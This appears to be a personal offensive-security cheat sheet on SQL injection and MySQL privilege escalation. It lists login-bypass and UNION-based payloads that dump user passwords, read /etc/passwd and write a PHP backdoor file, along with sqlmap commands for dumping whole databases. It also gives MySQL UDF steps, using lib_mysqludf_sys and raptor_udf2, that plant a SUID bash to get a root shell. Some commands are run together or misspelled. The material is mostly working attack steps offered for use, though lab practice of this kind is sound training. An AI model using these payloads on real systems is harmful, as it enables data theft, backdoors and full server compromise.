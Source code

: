 # SQL
### Authentication bypass

‘ or 1=1 #

‘ or 1=1 —

‘ or 1=1 ; #

‘or 1=1 ; —

---

### Enumerating the database

check input field → ‘ 

- 1’ order by 3 # —> to know number of columns
    - 1’ or ‘1’=’1 —> retrieve all data
- 1’ or 0=0 union select null, version() # —> db version
- 1’ or 0=0 union select null, user() # —> db user
- %’ or 0=0 union select null, database() # —> db name
- %’ and1=0 union select null, table_name from information_schema.tables # —> print all tables in all db
- %’ and 1=0 union select null, schema_name from information_schema.schemata # —> print all DB.s
- %’ and 1=0 union select table_schema, table_name from information_schema.tables # —> print all tables and db.s
- %’ and 1=0 union select table_name , columns_name from information_schema.columns # —> print all columns from all tables
- %’ 1=0 union select user, password from dvwa.users # —> we are in :3
- %’ 1=0 union select null, load_file(’/etc/passwd’) # —> the evil part :3
- %’ 1=0 union select null. “write everything you want :3  “ into OUTFILE ‘/tmp/backdoor.php’ #

- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 

Table_schema ⇒ whitch have all data bases

Table_name ⇒ whitch have all tables name 

select table name from informayion_schema.tables

select <column name> from <database.table>

---

## SQLMAP

**Simple HTTP GET Based Test**

`sqlmap -u https://testsite.com/page.php?id=7 --dbs`

**Simple HTTP POST Based Test**

**`sqlmap -r <request_file> -p <vulnerable_parameter> --dbs`**

`sqlmap -r req.txt -p blood_group --dbs`
⇒ Now that we have the databases, let's extract tables from the database ←→

**Using GET based Method**

**`sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --tables`**
`sqlmap -u https://testsite.com/page.php?id=7 -D blood --tables`

**Using POST based Method**

**`sqlmap -r req.txt -p <vulnerable_parameter> -D <database_name> --tables`**

`sqlmap -r req.txt -p blood_group -D blood --tables`

Once we have available tables, now let’s gather the columns from the table **blood_db**

**Using GET based Method**

`sqlmap -u https://testsite.com/page.php?id=7 -D blood -T blood_db --columns`

**`sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> -T <table_name> --columns`Using POST based Method**

`sqlmap -r req.txt -D blood -T blood_db --columns`

**`sqlmap -r req.txt -D <database_name> -T <table_name> --columns`**

Or we can simply dump all the available databases and tables using the following commands.

**Using GET based Method**

`sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --dump-allsqlmap -u https://testsite.com/page.php?id=7 -D blood --dump-all`

**Using POST based Method**

`sqlmap -r req.txt -D <database_name> --dump-allsqlmap -r req.txt-p  -D <database_name> --dump-all`
-------------------

If Mysql Is Running as root and you have credentials to access it then :

```sql
mysql> show databases;
mysql> use <table>;
mysql> CREATE FUNCTION sys_eval RETURNS INT SONAME ‘lib_mysqludf_sys.so’;
mysql> \! clear
mysql> select sys_eval("cp /bin/bash /var/tmp/bash ; chmod u+x /var/tmp/bash");
mysql> exit
```

.

```bash
# cd /var/tmp

# ./bash -p



bash-3.2# id
root
```

Or you can Do :
[•] Exploit Link : https://www.exploit-db.com/exploits/1518

[•] transfer this exploit to the target and use the following commands to compile it :

```bash
# gcc -g -c raptor_udf2.c -fPIC

# gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

[•] Connect to mysql service as root.

```sql
mysql -uroot
```

[•] Execute the following commands on the MySQL shell :

```sql
mysql> use mysql;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
mysql> create function do_system returns integer soname 'raptor_udf2.so';
```

[•] Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:

```sql
mysql> select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

[•] Exit out of the MySQL shell and Type :

```sql
/tmp/rootbash -p
```

.
